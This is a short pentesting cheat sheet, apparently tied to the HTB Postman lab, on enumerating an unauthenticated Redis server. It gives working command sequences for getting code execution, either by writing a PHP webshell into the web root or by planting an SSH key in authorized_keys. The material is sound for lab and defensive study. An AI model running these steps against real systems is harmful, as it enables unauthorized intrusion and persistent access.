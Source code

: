 # REDIS Enumeration (More information : HTB Postman)
Redis is an open source (BSD licensed), in-memory data structure store, used as a database, cache, and message broker.
  
## Really good documentation
This link is pretty important, I only get a few information (This page explain how to get code execution using REDIS)
- [https://book.hacktricks.xyz/pentesting/6379-pentesting-redis](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)  
  
 ## Install the needed tools
```bash
sudo apt-get install redis-tools
```
  
## Connection
```bash
# This will connect to the redis instance (NO AUTHENTICATION)
redis-cli -h 10.10.10.10

# To authenticate use the following command
AUTH <username> <password>
```

## Manual enumeration
```bash
# When you are authenticated
INFO
client list
config get *
```

## REDIS RCE (Only a few examples, more details in the link below)
#### Webshell
```bash
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK
```
#### SSH
1) Find the REDIS home directory
	- /var/lib/redis
	- /home/redis/.ssh
2) Generate a ssh public-private key pair on your pc: 
	- ssh-keygen -t rsa
3) Write the public key to a file : 
	- (echo -e "\n\n"; cat ./.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt
4) Import the file into redis : 
	- cat foo.txt | redis-cli -h 10.85.0.52 -x set crackit
5) Save the public key to the authorized_keys file on redis server:
```bash
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /home/test/.ssh/
OK
10.85.0.52:6379> config set dbfilename "authorized_keys"
OK
10.85.0.52:6379> save
OK
```
6) Finally, you can ssh to the redis server with private key : 
	- ssh -i id_rsa test@10.85.0.52